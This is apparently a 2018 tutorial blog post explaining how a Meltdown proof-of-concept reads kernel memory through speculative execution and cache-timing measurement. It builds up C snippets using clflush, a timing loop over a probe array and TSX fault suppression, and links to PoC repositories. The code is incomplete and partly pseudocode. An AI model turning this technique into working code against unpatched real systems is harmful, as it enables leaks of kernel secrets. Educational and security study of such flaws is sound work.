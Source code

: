 ```yaml
---
layout: post
title: "Programmer's guide to meltdown"
date: 2018-01-09 23:57:48 -0200
comments: true
categories: [security, hardware, programming]
keywords: meltdown, exploit, proof-of-concept, poc, kpti, kaiser, security
---
```


Ok, what I want here is to guide you through a Meltdown proof-of-concept that
peeks into kernel data that cpu is supposed to protect. Unfortunately, that
promise was broken and virtually all intel x86 cpu hosts are vulnerable until
patched (Linux patchset is available and named [kpti (kernel page table isolation)](https://lkml.org/lkml/2017/10/31/884)).

So far, we thought we were protected by cpu mechanisms because when you try
to load kernel (sensitive) data, cpu triggers an exception which in turn is
propagated by kernel to application as SIGSEGV, leading to application
termination, look at this example:
```bash
$ cat /proc/kallsyms | grep banner
ffffffff81a00060 R linux_proc_banner
$ cat kernel_address_read.cc 
main() {
  	char *p = (char*)0xffffffff81a00060; // use address of a kernel symbol containing banner
	*p = 0;
}
$ ./kernel_address_read
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

So time went by, and we all thought we were safe. Recently it was figured out
that speculative execution could be exploited to break that promise.
It basically consists of making the cpu use the value stored in a kernel
address before the cpu detects the access to kernel data is an invalid
instruction, but it's not that simple... look at this example:

```c
char *kernel_address = (char*)0xffffffff81a00060;
char kernel_data = *kernel_address;
int number = 10;
char byte = kernel_data + number;
```

It turns out that cpu may actually perform the addition of value found in kernel
address and 10, but the result is definitely not returned to the program which
again terminates with a SIGSEGV.

Now comes the BINGO, EUREKA! moment: A researcher figured out that whichever
data (in example above kernel_data and byte) used in the instruction
that procedes the invalid one (*kernel_address) will remain cached in the
cpu data cache. Yes! CPU doesn't invalidate data cached from an instruction
which used the result (kernel data) of an invalid one (access to kernel data).

Well, data cache cannot directly be read. But we know that access to data
cached is much faster than to uncached ones, so what we can do is to use the
byte read from kernel as an index for an array of size 256 elements, each index
representing a possible representation of a byte (0..255). For example:

```c
char *kernel_address = (char*)0xffffffff81a00060;
char array[256];

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index];
```

That would only work if cache line size is 1, but it's usually 64 for level 1,
so we need to multiply array size and index by 64.

```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index * cache_line_size];
```

So if it happens that the instruction that accesses array using byte read from
kernel is executed before cpu triggers exception for invalid access to kernel,
it means cpu will bring array[kernel_data_as_index * cache_line_size] to cache.

Now we know that we can iterate through the 256 "cache lines" in array, and
we'll know that the one with the fastest access time is the one cached by cpu,
and the "cache line" index is actually the byte read from kernel.

For example:

```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index * cache_line_size];

// Please consider for now that signal handler for sigsegv was set up,
// and we continue executing from here after invalid access

int fastest_i_time = MAX_INTEGER_VALUE;
int fastest_i = 0;

for (int i = 0; i < 256; i++) {
    // access_time_to() calculates the time to load array[i * cache_line_size] using rdtsc or rdtscp.
    int time = access_time_to(array[i * cache_line_size]);
    if (time < fastest_i_time) {
        fastest_i_time = time;
        fastest_i = i;
    }
}

printf("byte read from kernel is: %d\n", fastest_i);
```

It's not hard to understand it. If you think of it, fastest_i is equal to the
byte stored in kernel_address because program determined array[fastest_i *
cache_line_size] is cached by cpu and only one place in array was cached
previously by the instructions that accessed kernel and used its value to
retrieve a byte from array.

In real life, it's not that simple to implement because you need to clear data
cache (clflush instruction can be used) before performing the test because you
want to read more bytes and the data cache shouldn't be polluted for array or
wrong result is returned.

This is my assembly inline to clear cache line for a specific address:
```c
__attribute__((always_inline))
inline void __clflush(const char *address)
{
    asm __volatile__ (
        "mfence         \n"
        "clflush 0(%0)  \n"
        :
        : "r" (address)
        :            );
}
```

So you'll need to do that for each "cache line" in the array, the code now
becomes this:

```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

for (int i = 0; i < 256; i++) {
    __clflush(array[i * cache_line_size]);
}

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index * cache_line_size];

int fastest_i_time = MAX_INTEGER_VALUE;
int fastest_i = 0;

for (int i = 0; i < 256; i++) {
    // access_time_to() calculates the time to load array[i * cache_line_size] using rdtsc or rdtscp.
    int time = access_time_to(array[i * cache_line_size]);
    if (time < fastest_i_time) {
        fastest_i_time = time;
        fastest_i = i;
    }
}

printf("byte read from kernel is: %d\n", fastest_i);
```

That's not complete code because you'll have to set up signal handler or use
TSX (Transactional Synchronization Extensions) to mitigate SIGSEGV that occurs
after the instruction to load kernel address retires (is fully executed).
Follow example using TSX:
```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

for (int i = 0; i < 256; i++) {
    __clflush(array[i * cache_line_size]);
}

if (_xbegin() == _XBEGIN_STARTED) {
    char kernel_data_as_index = *kernel_address;
    char byte = array[kernel_data_as_index * cache_line_size];
    _xend();
} else {
    // do nothing
}

int fastest_i_time = MAX_INTEGER_VALUE;
int fastest_i = 0;

for (int i = 0; i < 256; i++) {
    // access_time_to() calculates the time to load array[i * cache_line_size] using rdtsc or rdtscp.
    int time = access_time_to(array[i * cache_line_size]);
    if (time < fastest_i_time) {
        fastest_i_time = time;
        fastest_i = i;
    }
}

printf("byte read from kernel is: %d\n", fastest_i);
```

There's nothing much you can do with this code that only reads 1 byte from
kernel space, so I'd suggest you to take a look at the code of my own project
that exploits meltdown to check whether or not system is affected, follow link:
https://github.com/raphaelsc/Am-I-affected-by-Meltdown
I'd also recommend you to take a look at proof-of-concept of the researchers
involved: https://github.com/IAIK/meltdown/

Cheers!

